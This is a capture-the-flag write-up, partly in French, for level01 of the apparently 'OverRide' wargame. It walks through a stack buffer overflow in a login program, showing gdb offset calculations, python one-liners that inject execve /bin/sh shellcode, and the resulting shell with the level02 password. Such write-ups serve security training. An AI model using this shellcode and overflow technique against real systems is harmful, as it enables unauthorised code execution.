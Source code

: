 # level01

The program asks for an username and after a password.

By looking at the code, we can see that the `verify_user_name` function, compare our input, copied in a global variable <a_user_name>, with "dat_wil". The program exits if not true.

The `verify_user_pass` compare our input, copied in a local variable in main, with "admin". But even if the password is good or not, the program exits.

We first try to overwrite `eip`: we can see that the local buffer have a size of 68 bytes, and the 2nd `fgets` read 100 bytes. We can calculate the length between the beginning of the buffer and `eip`:

```gdb
(gdb) info frame
Stack level 0, frame at 0xffffd740:
 eip = 0x8048574 in main; saved eip 0xf7e45513
 Arglist at 0xffffd738, args: 
 Locals at 0xffffd738, Previous frame's sp is 0xffffd740
 Saved registers:
  ebx at 0xffffd730, ebp at 0xffffd738, edi at 0xffffd734, eip at 0xffffd73c
(gdb) p/d 0xffffd73c-0xffffd6ec
$13 = 80
```

Then we need an address to put our shellcode. It can be on the local buffer, before the `eip` address, or in the global variable <a_user_name>.

With global variable:

The address is hardcoded and have at least a length of 108 bytes minus 7 for "dat_wil":

```gdb
Breakpoint 1, 0x0804852d in main ()
(gdb) x/28wx 0x0804a040
0x804a040 <a_user_name>:        0x5f746164      0x0a6c6977      0x00000000      0x00000000
0x804a050 <a_user_name+16>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a060 <a_user_name+32>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a070 <a_user_name+48>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a080 <a_user_name+64>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a090 <a_user_name+80>:     0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0 <a_user_name+96>:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) p/d 0x804a0a0+12 - 0x804a040
$1 = 108
(gdb) p/x 0x804a040 + 7
$5 = 0x804a047
```

Exploit the program:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"';python -c 'print "\x41" * 80 + "\x47\xa0\x04\x08"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cd /home/users/level02
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

With local buffer:

Without the environment in `gdb`:

```gdb
(gdb) set exec-wrapper env -u LINES -u COLUMNS
(gdb) b *0x08048574
Breakpoint 1 at 0x8048574
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil 
verifying username....

Enter Password: 

Breakpoint 1, 0x08048574 in main ()
(gdb) x $esp+0x1c
0xffffd69c:     0x00000000
```

Try to exploit:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\x8c\xd6\xff\xff"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
Segmentation fault (core dumped)
```

With environment in `gdb`:

```gdb
(gdb) b *0x08048574
Breakpoint 1 at 0x8048574
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 

Breakpoint 1, 0x08048574 in main ()
(gdb) x $esp+0x1c
0xffffd68c:     0x00000000
```

Try to exploit:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\x9c\xd6\xff\xff"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
Segmentation fault (core dumped)
```

We get the address with `ltrace` in a real environment:

```bash
level01@OverRide:~$ ltrace ./level01 
...
"admin\n", 100, 0xf7fcfac0)                          = 0xffffd6ac
```

Exploit the program:

```bash
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x41" * (80 - 28) + "\xac\xd6\xff\xff"';cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```

=======

Si nous comparons l adresse qui est dans le deuxieme fgets et l adresse de save eip, nous constatons qu'il n y a que 80 byte de difference et que fgets en lit 100

Nous pouvons donc ecraser save eip dans le deuxieme fgets et nous avons de la place pour mettre notre shellcode

r <<< $(python -c 'print "dat_wil" + "A" * (247) + "\n" + "\x90" * 80 + "\x25\xd7\xff\xff" + "B" * 14 + "\n"')

0x08048579 in main ()
(gdb) x/80bx 0xffffd6ec
0xffffd6ec:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6fc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd704:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd70c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd714:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd71c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd724:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90

0xffffd72c in ?? ()
(gdb) x/80bx 0xffffd6ec
0xffffd6ec:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6fc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd704:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd70c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd714:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd71c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd724:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd72c:     0x01    0x00    0x00    0x00    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90


On peut voir que 4 bytes sont ecraser a partir de l adresse 0xffffd72c

Nous devons donc placer notre shellcode avant si nous le placons dans le deuxieme input

(gdb) r <<< $(python -c 'print "dat_wil" + "A" * 247 + "\n" + "\x90" * (64-23) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x55" * 16 + "\x04\xd7\xff\xff" + "B" * 14 + "\n"')
Starting program: /home/users/level01/level01 <<< $(python -c 'print "dat_wil" + "A" * 247 + "\n" + "\x90" * (64-23) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x55" * 16 + "\x04\xd7\xff\xff" + "B" * 14 + "\n"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

process 1900 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
